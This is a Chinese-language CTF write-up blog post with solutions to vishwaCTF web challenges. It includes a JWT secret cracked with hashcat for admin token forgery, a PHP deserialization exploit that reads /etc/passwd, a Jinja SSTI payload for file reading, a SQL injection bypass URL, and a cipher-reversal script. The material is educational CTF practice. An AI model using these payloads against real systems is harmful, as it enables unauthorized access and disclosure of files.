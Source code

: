 <!--yml
category: 未分类
date: 2022-04-26 14:40:06
-->

# 【vishwaCTF】web题解wp_Sunlight_316的博客-CSDN博客

> 来源：[https://blog.csdn.net/weixin_51614272/article/details/124128472](https://blog.csdn.net/weixin_51614272/article/details/124128472)

# web

## Keep Your Secrets（jwt典例）

> 一打开发现有两个页面，一个页面是注册，一个是admin管理员页面

![在这里插入图片描述](img/ec8a68025fa78bbc68fc15cb0724931e.png)

> 注册完成之后会返回一段字符串，分析得到这是一段Token：

![在这里插入图片描述](img/e546b9986d7d166b36277b75c9a9bc8e.png)

> 那么我们就可以利用这段Token伪造管理员请求去得到flag
> 打开jwt.io：要爆破的就是下面这个检验码![](img/b3d28164249653572ce0b953e073d834.png)
> 打开hashcat，设置掩码爆破或者暴力爆破，5分钟出来了：
> 或者rockyou.txt，很多密码，秒出结果
> 密钥是：owasp

![在这里插入图片描述](img/09ad0ee34d838118d884c10b9bef3af5.png)

> 最后POST请求提交作为请求头的Token即可，**要放在中间**，放在包最后会发生未知错误

![在这里插入图片描述](img/347be886112b247b4430810fe86a55a6.png)

> hashcat -a -0 代表字典攻击
> -m 16500 代表破解的是jwt
> hashcat的wiki：[hashcat_WiKi](https://hashcat.net/wiki/doku.php?id=hashcat) 和 [hashcat手册](https://www.redteaming.top/2019/02/13/Hashcat%E7%9A%84%E4%BD%BF%E7%94%A8%E6%89%8B%E5%86%8C%E6%80%BB%E7%BB%93/#%E7%AE%80%E4%BB%8B)
> –show代表直接把密钥显示出来

```
-a  指定要使用的破解模式，其值参考后面对参数。“-a 0”字典攻击，“-a 1” 组合攻击；“-a 3”掩码攻击。
-m  指定要破解的hash类型，如果不指定类型，则默认是MD5
-o  指定破解成功后的hash及所对应的明文密码的存放位置,可以用它把破解成功的hash写到指定的文件中
--force	忽略破解过程中的警告信息,跑单条hash可能需要加上此选项
--show	显示已经破解的hash及该hash所对应的明文
--increment	 启用增量破解模式,你可以利用此模式让hashcat在指定的密码长度范围内执行破解过程
--increment-min  密码最小长度,后面直接等于一个整数即可,配置increment模式一起使用
--increment-max  密码最大长度,同上
--outfile-format 指定破解结果的输出格式id,默认是3
--username 	 忽略hash文件中的指定的用户名,在破解linux系统用户密码hash可能会用到
--remove 	 删除已被破解成功的hash
-r		 使用自定义破解规则 
```

## Todo list（php反序列化）

```
<?php
Class ShowSource{
    public function __toString()
    {
        return highlight_file($this->source, true);
    }
}

if(isset($_GET['source'])){
    $s = new ShowSource();
    $s->source = __FILE__;
    echo $s;
    exit;
}

$todos = [];

if(isset($_COOKIE['todos'])){
    $c = $_COOKIE['todos'];
    $h = substr($c, 0, 40);
    $m = substr($c, 40);
    if(sha1($m) === $h){
        $todos = unserialize($m);
    }
}

if(isset($_POST['text'])){
    $todo = $_POST['text'];
    $todos[] = $todo;
    $m = serialize($todos);
    $h = sha1($m);
    setcookie('todos', $h.$m);
    header('Location: '.$_SERVER['REQUEST_URI']);
    exit;
}

 foreach($todos as $todo):
      <label class="todo">
      <input class="todo__state" type="checkbox" />
      <svg xmlns="http://www.w3.org/2000/svg" xmlns:xlink="http://www.w3.org/1999/xlink" viewBox="0 0 200 25" class="todo__icon">
        <use xlink:href="#todo__line" class="todo__line"></use>
        <use xlink:href="#todo__box" class="todo__box"></use>
        <use xlink:href="#todo__check" class="todo__check"></use>
        <use xlink:href="#todo__circle" class="todo__circle"></use>
      </svg>
      <div class="todo__text"><?=$todo?></div>
      </label>
    <?php endforeach; 
```

echo触发 __toString
exp:

```
<?php
Class ShowSource{
    public function __construct()
    {
        $this->source = '/etc/passwd'; 
    }
}
$todos[]=new ShowSource();
echo sha1(serialize($todos));
echo urlencode(serialize($todos)); 
```

## Hey Buddy!（SSTI）

payload：

```
{{().__class__.__bases__[0].__subclasses__()[99](path=%27%27,fullname=%27%27).get_data(%27./flag.txt%27)}} 
```

使用subclasses的第99个库，这个库里有os操作，就可以获取flag

## My Useless Website（SQL注入）

直接万能密码注释掉后面就可以了
payload：

```
https://my-us3l355-w3b51t3.vishwactf.com/?user=1%27%20or%201=1–+&pass=1 
```

`-+` 或者 `·--`就是注释符

## Stock Bot（信息检索）

出现了一段payload：
根据：if(!msg.includes(‘Flag’))
猜测product=Flag，得到flag
![在这里插入图片描述](img/83a1a55307dc4992ff7a3654fa8d8f05.png)

## Request Me FLAG（数据包请求方式）

以FLAG请求方式请求数据包，得到flag

## Strong Encryption（php代码审计）

```
<?php

    $flag="";

    function encrypt($str,$enKey){

        $strHex='';
        $Key='';
        $rKey=69;
        $tmpKey='';

        for($i=0;$i<strlen($enKey);$i++){
            $Key.=ord($enKey[$i])+$rKey;  
            $tmpKey.=chr(ord($enKey[$i])+$rKey); 
        }    

        $rKeyHex=dechex($rKey); 

        $enKeyHash = hash('sha256',$tmpKey);

        for ($i=0,$j=0; $i < strlen($str); $i++,$j++){
            if($j==strlen($Key)){
                $j=0;
            }
            $strHex .= dechex(ord($str[$i])+$Key[$j]);
        }
        $encTxt = $strHex.$rKeyHex.$enKeyHash;
        return $encTxt;
    }

    $encTxt = encrypt($flag, "VishwaCTF");

    echo $encTxt;

?> 
```

解密脚本：
原过程是每位的十进制加上key再转16进制，反推这个过程就可以得到flag

```
$str2 = "576e78697e65445c4a7c8033766770357c3960377460357360703a6f6982";
$Key='155174184173188166136153139';   
	for ($i=0,$j=0; $i < strlen($str2); $i++,$j++){
		if($j==strlen($Key)){
			$j=0;
        }
        $a = $str2[$i].$str2[$i+1];
        $flag .= chr(hexdec($a)-$Key[$j]);  
        $i++;
   }
echo "flag: ".$flag; 
```
